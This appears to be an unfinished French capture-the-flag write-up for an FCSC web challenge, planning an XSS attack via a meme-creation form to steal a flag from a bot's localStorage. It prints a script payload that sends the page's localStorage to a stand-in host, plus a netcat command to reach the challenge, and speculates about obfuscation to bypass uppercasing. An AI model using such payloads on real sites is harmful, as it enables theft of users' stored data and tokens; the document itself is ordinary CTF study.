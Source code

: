 # Analyse
- Application web : https://meme-generator.fcsc.fr/

Il est indiqué que le bot accessible possède le flag dans son localStorage.

On va alors essayer de faire une attaque XSS via le formulaire de création de meme.

## XSS

- On récupère tous les éléments du localStorage et on les envoie à l'URL de notre choix.

```html
<script>
    document.location.href = 'https://example.com/'+JSON.stringify(localStorage);
</script>
```

Problème : Le contenu de ce qu'on envoie lors de la requête pour le XSS est réécris en majuscules. Donc les mots clés ( tels que `document` etc...) ne sont plus reconnus...

> On pourrait alors essayer de faire une obfuscation pour que la casse n'impacte pas le bon fonctionnement du script ???

### Utilisation du bot 

Une fois cette solution trouvée, on pourra simplement utiliser le bot pour faire la requête vers le site avec notre injection XSS

```zsh
nc chall.fcsc.fr 2210
```